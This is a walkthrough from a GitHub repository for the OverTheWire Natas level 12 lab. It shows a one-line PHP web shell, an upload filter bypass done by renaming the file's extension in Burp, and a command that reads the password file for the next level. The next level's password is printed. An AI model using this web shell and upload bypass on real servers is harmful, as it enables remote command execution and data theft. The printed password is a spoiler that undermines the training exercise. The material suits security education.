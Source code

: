 - First, create a PHP shell and rename it to `shell.jpg`.

  ```
  cat shell.php 
  <?php echo shell_exec($_GET['cmd']); ?>
  ```

- Now, upload our shell and intercept the request with Burp, then change the extension of the shell back to `.php`.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas12/burp.png"/>

- After successful upload, you will get a link to the page of your shell which allows command injection.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas12/page.png"/>

- Visit the shell page and execute command `cat /etc/natas_webpass/natas13` in order to get a password.

  ```http://natas12.natas.labs.overthewire.org/upload/am74kj8zst.php?cmd=cat /etc/natas_webpass/natas13```

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas12/pw.png"/>

---

## 🏁 Password for the next level

`natas13 password is trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
